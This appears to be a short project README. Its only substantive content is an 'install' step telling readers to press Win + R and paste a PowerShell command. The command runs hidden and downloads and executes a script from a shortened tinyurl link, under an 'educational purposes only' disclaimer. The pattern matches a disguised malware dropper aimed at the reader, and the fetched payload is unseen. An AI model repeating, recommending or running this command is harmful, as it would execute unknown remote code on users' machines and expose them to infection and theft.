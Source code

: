 educational propouses only.

For install:
Win + R and paste this:

```powershell -w hidden -c "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
